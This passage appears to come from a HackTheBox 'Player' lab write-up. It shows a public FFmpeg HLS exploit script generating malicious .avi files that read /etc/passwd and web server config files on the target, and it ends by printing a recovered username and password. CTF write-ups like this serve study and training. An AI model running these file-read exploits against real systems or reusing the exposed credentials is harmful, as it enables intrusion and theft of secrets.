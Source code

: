 Using the [exploit](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS/gen_xbin_avi.py), we can create a malicious .avi that access other files, for example:

```console
$ python3 gen_xbin_avi.py file://etc/passwd exploit.avi
```

Downloading the video show the file:

![Untitled](/assets/img/hackthebox/labs/player/Untitled%207.png)

We can access the previous files with errors we got:

```console
$ python3 gen_xbin_avi.py file://var/www/backup/service_config service_config.avi
$ python3 gen_xbin_avi.py file://var/www/staging/fix.php fix.avi
```

In **service_config** we can found a pair of credentials: `telegen:d-bC|jC!2uepS/w`:
